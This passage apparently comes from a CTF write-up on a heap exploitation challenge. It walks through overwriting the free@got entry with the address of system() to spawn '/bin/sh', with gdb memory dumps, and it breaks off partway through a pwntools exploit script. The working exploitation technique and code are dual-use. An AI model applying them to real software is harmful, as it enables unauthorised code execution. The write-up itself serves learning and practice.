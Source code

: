 *Protip: to update your local libc-database corpus, just run `./get` and if a repo fails, just comment it out and try again.*

## GOT Overwrite

The final step of our exploit will be overwriting a **GOT** entry to make it call `system("/bin/sh\0");`.

`free@got` is, again, a suitable candidate, because it takes in a pointer that we can control in `ptrs`.

We choose to write the string "/bin/sh" oursevles into `ptrs` rather than using the "/bin/sh" leak we got from **libc-database** because the libc offset, `0x160a24` contains a newline char which can be problematic.

So, after the `ptrs` array is set up, it should look like this:
{% highlight bash %}
0x804a0e0 <ptrs>:	0x0804a010	0x0804a0e8	0x6e69622f	0x0068732f
0x804a0f0 <ptrs+16>:	0x0000000a	0x00000000	0x0000000a	0x00000000
{% endhighlight %}

And `free@got` entry should now be overwritten with the calculated address of `system@libc`. 

{% highlight bash %}
gdb-peda$ x/68xw 0x804a000
0x804a000:	0x08049f14	0xf7769938	0xf775c4f0	0xf75bf280
0x804a010:	0xf75b2190	0xf75d94a0	0xf75d5b20	0xf75e000a
...
<snipped>
gdb-peda$ pdisas 0xf75b2190
Dump of assembler code from 0xf75b2190 to 0xf75b21b0::	Dump of assembler code from 0xf75b2190 to 0xf75b21b0:
   0xf75b2190 <__libc_system+0>:	push   ebx
   0xf75b2191 <__libc_system+1>:	sub    esp,0x8
...
<snipped>
{% endhighlight %}

We will finally call `free(1)` to execute `system("/bin/sh\0");`!

Putting everything together, we are able to get a shell using the following exploit.

## Exploit
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def alloc():
    r.sendline("1")
    chunk = r.recvline().split(" ")[1].rstrip('\n')
    r.recvuntil("> ")
    return int(chunk,16)-8

def free(index, parse=False):
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline(str(index))
    if parse == True:
        return r.recvuntil("> ")
    else:
        r.recvuntil("> ")

def tmp(data):
    r.sendline("3")
    r.sendline(data)
    r.recvuntil("> ")